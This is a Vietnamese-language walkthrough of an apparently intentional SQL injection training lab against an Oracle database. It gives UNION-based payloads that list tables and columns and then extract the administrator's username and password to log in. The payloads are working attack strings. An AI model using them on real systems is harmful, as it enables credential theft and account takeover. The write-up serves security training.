







# SQL Injection Lab 06: List Database Contents on Oracle

## Mục tiêu
Liệt kê bảng/cột trên Oracle và lấy mật khẩu của `administrator`.


<br><br>

## Các bước chính
1. Dò số cột và cột hiển thị text như các lab trước.


<br><br>

2. Liệt kê tên bảng trên Oracle (`all_tables`):

```sql
' union select table_name, null from all_tables --
```


<br><br>

3. Xác định bảng users: `USERS_XQFOYY`.


<br><br>

4. Liệt kê cột của bảng users (`all_tab_columns`):

```sql
' union select column_name, null from all_tab_columns where table_name = 'USERS_XQFOYY' --
```


<br><br>

5. Lấy username/password của `administrator`:

```sql
' union select USERNAME_JVDZSM, PASSWORD_NKGTUE from USERS_XQFOYY where USERNAME_JVDZSM = 'administrator' --
```


<br><br>

6. Dùng mật khẩu lấy được để đăng nhập `administrator` và solve lab.


<br><br>

## Payload solve

```sql
' union select USERNAME_JVDZSM, PASSWORD_NKGTUE from USERS_XQFOYY where USERNAME_JVDZSM = 'administrator' --
```
